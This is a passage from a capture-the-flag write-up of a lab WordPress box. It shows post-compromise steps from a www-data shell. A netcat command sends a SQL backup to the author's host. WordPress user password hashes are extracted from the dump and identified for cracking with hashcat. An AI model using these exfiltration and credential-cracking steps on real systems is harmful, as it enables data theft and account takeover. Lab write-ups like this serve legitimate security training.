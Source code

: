 ```text
drwxr-xr-x  5 www-data www-data  4096 Apr 23 19:10 wp-content
-rw-r--r--  1 www-data www-data  3940 Feb  6  2020 wp-cron.php
drwxr-xr-x 21 www-data www-data 12288 Mar 31 20:03 wp-includes
-rw-r--r--  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
-rw-r--r--  1 www-data www-data  3300 Feb  6  2020 wp-load.php
-rw-r--r--  1 www-data www-data 47874 Feb 10  2020 wp-login.php
-rw-r--r--  1 www-data www-data  8501 Feb  6  2020 wp-mail.php
-rw-r--r--  1 www-data www-data 19396 Feb 10  2020 wp-settings.php
-rw-r--r--  1 www-data www-data 31111 Feb  6  2020 wp-signup.php
-rw-r--r--  1 www-data www-data  4755 Feb  6  2020 wp-trackback.php
-rw-r--r--  1 www-data www-data  3133 Feb  6  2020 xmlrpc.php
```

Nothing of interest in the `/var/www/html` directory

```text
www-data@blog:/opt/wordpress$ ls -la
ls -la
total 1180
drwxr-xr-x 1 root root    4096 Apr 24 06:39 .
drwxr-xr-x 1 root root    4096 Apr 13 13:37 ..
-rw-r--r-- 1 root root 1190388 Apr 24 06:39 backup-13-04-2020.sql
www-data@blog:/opt/wordpress$ nc 10.10.15.53 9099 < backup-13-04-2020.sql
nc 10.10.15.53 9099 < backup-13-04-2020.sql
```

In the `/opt/wordpress` directory found and extracted a .sql file to my home machine; tried to open with `sqlitebrowser` but it told me it wasnt a valid database. I used the file command on it and it said it was a stnadard ASCII file so I opened it with `vim` and started browsing

picture

### Finding user credentials

It was a sqldump output file rather than an actual database, but contained all of the recent queries to the database. I found password hashes for an `admin` user and `lynik-admin` , loading in hash-identifier to check what type of hash then loaded to crack with hashcat

```text
INSERT INTO `wp_users` VALUES
(1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http
://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-
admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-
admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
```

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
```